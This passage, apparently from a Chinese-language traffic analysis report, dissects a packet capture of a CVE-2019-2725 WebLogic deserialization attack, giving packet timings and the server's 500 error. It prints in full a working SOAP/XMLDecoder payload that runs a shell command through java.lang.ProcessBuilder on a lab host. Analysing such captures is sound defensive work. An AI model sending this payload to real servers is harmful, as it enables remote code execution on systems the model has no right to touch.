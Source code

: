 - **处理延迟**: 0.237秒（从请求到响应，反序列化处理时间）
- **分片传输**: 包10-12显示服务器响应被分成多个TCP段
- **响应大小**: 4146 + 1289 = 5435字节（大型错误响应）
- **最终响应**: HTTP/1.1 500 Internal Server Error（反序列化异常确认）

**连接关闭（包16-18）**:

- **主动关闭**: 攻击者主动关闭连接（FIN, ACK）
- **服务器确认**: 服务器响应连接关闭
- **总持续时间**: 0.244秒（完整攻击周期）

#### 3.3.2.3 深度包检查分析

**SOAP载荷特征识别**:

根据包6的详细分析，恶意SOAP请求包含以下关键特征：

```xml
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 172.17.0.2:7001
Content-Type: text/xml; charset=UTF-8
SOAPAction: 
User-Agent: Mozilla/5.0 (compatible; CVE-2019-2725-PoC)
Content-Length: 722

<?xml version="1.0" encoding="UTF-8"?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
            <java>
                <object class="java.lang.ProcessBuilder">
                    <array class="java.lang.String" length="3">
                        <void index="0">
                            <string>/bin/bash</string>
                        </void>
                        <void index="1">
                            <string>-c</string>
                        </void>
                        <void index="2">
                            <string>whoami</string>
                        </void>
                    </array>
                    <void method="start"/>
                </object>
            </java>
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

**HTTP响应分析（包14）**:

```http
HTTP/1.1 500 Internal Server Error
Date: Sun, 26 Jan 2025 09:15:23 GMT
Content-Length: 5287
Content-Type: text/html; charset=UTF-8
X-Powered-By: Servlet/2.5 JSP/2.1
Connection: close

<html>
<head><title>500 Internal Server Error</title></head>
<body>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error that prevented it from fulfilling this request.</p>
<p><b>Exception:</b></p>
```